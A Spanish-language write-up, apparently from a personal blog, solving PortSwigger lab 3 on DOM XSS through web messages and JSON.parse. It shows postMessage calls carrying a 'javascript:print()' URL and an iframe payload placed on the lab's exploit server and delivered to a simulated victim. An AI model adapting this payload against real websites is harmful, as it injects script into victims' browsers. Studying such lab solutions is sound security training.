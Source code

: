 ```yaml
---
title: DOM Based Vulnerabilities Lab 3
date: 2025-01-19 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - DOM Based Vulnerabilities
tags:
  - DOM Based Vulnerabilities
  - DOM XSS using web messages and JSON.parse
image:
  path: /assets/img/DOM-Based-Vulnerabilities-Lab-3/Portswigger.png
---
```


## Skills

- DOM XSS using web messages and JSON.parse
  
## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza `mensajes web` y analiza el `mensaje` como `JSON`. Para `resolver` el `laboratorio`, debemos construir una página `HTML` en el `servidor de exploits` que `explote` esta `vulnerabilidad` y llame a la función `print()`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/DOM-Based-Vulnerabilities-Lab-3/image_1.png)

Me llama la atención la `carga` del `objeto`, si `inspeccionamos` el `código fuente` vemos que la `ventana` tiene un `listener` y si `enviamos` un `mensaje` este se `mostrará` en la `web`

![](/assets/img/DOM-Based-Vulnerabilities-Lab-3/image_2.png)

Para `enviar` un `mensaje` podemos usar `window.postMessage`, el `mensaje` debe `contener` un `string` en `formato JSON`. Al proporcionar los parámetros `type: 'load channel'` y `url: 'https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/'` el script nos crea un `iframe` cuya `url` es la proporcionada

```
window.postMessage(JSON.stringify({type: 'load-channel', url: 'https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/'}));
```

![](/assets/img/DOM-Based-Vulnerabilities-Lab-3/image_3.png)

Como nos esta `cargando` una `url` podemos usar `javascript:print()` para `ejecutar código` JavaScript

```
window.postMessage(JSON.stringify({type: 'load-channel', url: 'javascript:print()'}));
```

![](/assets/img/DOM-Based-Vulnerabilities-Lab-3/image_4.png)

A continuación nos vamos al `exploit server` e `insertamos` este `payload`. Este `payload` nos `carga` la `url` de la `web vulnerable` y `cuando se ha cargado enviamos un mensaje con el payload desde dentro del iframe`

```
<iframe src="https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/" onload="this.contentWindow.postMessage(JSON.stringify({type: 'load-channel', url: 'javascript:print()'}), '*')">
```

Si pulsamos sobre `View exploit` se nos `cargará` el `iframe` y también se mostrará un `print()`. Si pulsamos en `Deliver exploit to victim` estaremos enviando a la víctima la `url` de nuestro servidor `https://exploit-0a9b002b0485218685773a2501aa0098.exploit-server.net/exploit` en el cual `alojamos` el `exploit`

![](/assets/img/DOM-Based-Vulnerabilities-Lab-3/image_5.png)
